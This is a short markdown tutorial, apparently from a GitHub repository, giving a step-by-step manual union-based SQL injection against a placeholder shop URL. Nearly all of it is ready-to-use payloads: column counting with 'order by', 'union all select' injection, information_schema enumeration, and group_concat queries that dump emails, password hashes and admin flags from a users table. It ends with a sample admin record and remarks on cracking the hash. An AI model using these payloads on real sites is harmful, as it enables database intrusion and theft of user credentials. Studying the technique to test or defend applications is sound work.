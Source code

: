 # Simple SQL injection example


1 - Find a vulnerbale URL: `example.com/shop.php?item=3'`
	You are looking for an error.

2 - Use `order by X` in the URL to get the injection points: `example.com/shop.php?item=3 order by 100 --`

3 - Go up and down to get the table count: `example.com/shop.php?item=3 order by 10 --`

  We're looking for an "unknown column count" error, but it will still show a correct layout when we get the right number.
	We get the final URL (last number with an error): `example.com/shop.php?item=3 order by 7 --`
  
  Then minus 1 which gives us 6 (because it starts at 0, not 1)
	
4 - Now we add the `union all select` statement to get the attack vectors:

```example.com/shop.php?item=-3 union all select 1,2,3,4,5,6 --```

Some content on the page will be replaced with a number above. We'll inject our code into that number.
	
5 - The next step is to start gathering information about the server / site setup. 
  We will assume there is only one injection point here, so test them seperatly: ```example.com/shop.php?item=-3 union all select 1, version() ,3,4,5,6 --```
  
and: ```example.com/shop.php?item=-3 union all select 1, user() ,3,4,5,6 --```

Neither are a great hit so we'll carry on enumeration...
	
6 - Now we need to know the names of the tables to proceed by using the `group_concat` statement:

```example.com/shop.php?item=-3 union all select 1, group_concat(table_name) ,3,4,5,6  from information_schema.tables where table_schema=database() --```
  
  This simply says: "gimme the concatenated table_names from the tables list". The table names will be shown where the injectednumber was. Click three times to highlight the entire string and paste it into notepad so you can search for useful fields.
  
  Both the `users` and `Login` tables look interesting...
	
  Note: table / row / column names are case-sensitive!
	
7 - So let's try to get the `users` table with a similar URL:

```example.com/shop.php?item=-3 union all select 1, group_concat(column_name) ,3,4,5,6  from information_schema.columns where table_name = 0x7573657273 --```

We just change table to column and change table_schema to `table_name = 0x("users" in hex)`.

The page should now show the columns for the `users` table. The rows are the actual users info... username, email, password, etc.

Again, copy and paste to notepad to make searching easier.
	
These columns look interesting:

```ID,Email,Password,admin```
	
8 - So let's see what's in the above fields with a similar statement to the previous two:
	
```example.com/shop.php?item=-3 union all select 1, group_concat(ID,0x3a,Email,0x3a,Password,0x3a,admin) ,3,4,5,6 from users --```
	
`0x3a` will be replaced with `:` to help separating the data easier. 

We also replced the `from information_schema` junk with just `from tablename`
	
This will return a lot of data but we can filter it further to find an admin login...
	
9 - Finding an admin account is always preferred, so we can start filtering using a "where" statement...

```example.com/shop.php?item=-3 union all select 1, group_concat(ID,0x3a,Email,0x3a,Password,0x3a,admin) ,3,4,5,6  from users where admin <> '' --```

Suffixing `where admin <> ''` means "show me all rows where admin permissions isn't under or over anything"... < means under, > means over and '' being a blank value.
	
10 - Tada. Copy and paste the account info into notepad and see what we got...

	113:diane@example.com:13c910179746854acd8c4dbedfc3610f:Y
	or
	ID: 113
	Email: diane@example.com
	Password: 13c910179746854acd8c4dbedfc3610f
	admin: Y (yes, I'm an admin account)
	
Not all hashes are easy to crack or even valid (it could be salted or use a hidden concatenated value). Most of the users on this site have easy to crack passwords but not the admin

Sometimes the MD5 hash will also work as the password, but not this time!

## Thanks
That was a quick and dirty guide to SQL injection. It's a very old technique, not new, and mostly patched. Hope you enjoyed it, and feel free to let me know what you think...

## Social

[Twitter](https://twitter.com/mradamdavies) || [Hackersploit Discord](https://discord.gg/hackersploit) || [Buy me a coffee!](https://www.buymeacoffee.com/mradamdavies)
